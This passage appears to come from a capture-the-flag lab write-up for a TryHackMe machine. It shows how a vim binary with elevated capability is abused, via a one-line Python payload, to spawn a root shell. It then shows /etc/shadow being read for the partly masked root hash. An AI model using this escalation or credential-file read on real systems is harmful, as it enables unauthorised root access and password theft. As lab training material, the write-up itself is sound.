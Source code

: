 ![7](/assets/images/thm/undiscovered/7.png)

### Getting a root shell
```console
leonard@undiscovered:~$ /usr/bin/vim.basic -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Error detected while processing command line:
E319: Sorry, the command is not available in this version: :py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
Press ENTER or type command to continue
```
We get a error. So, lets try with py3.
```console
leonard@undiscovered:~$ /usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
# id
uid=0(root) gid=1002(leonard) groups=1002(leonard),3004(developer)
```
And we are now root. 

### Reading the root hash
```console
# cat /etc/shadow | grep -i root
root:$6$1V*************729XRbQB7u3rndC.8wl****************w2QVsVxHSH.ghR******************CfY6iv/koGQQPUB0:18508:0:99999:7:::
```



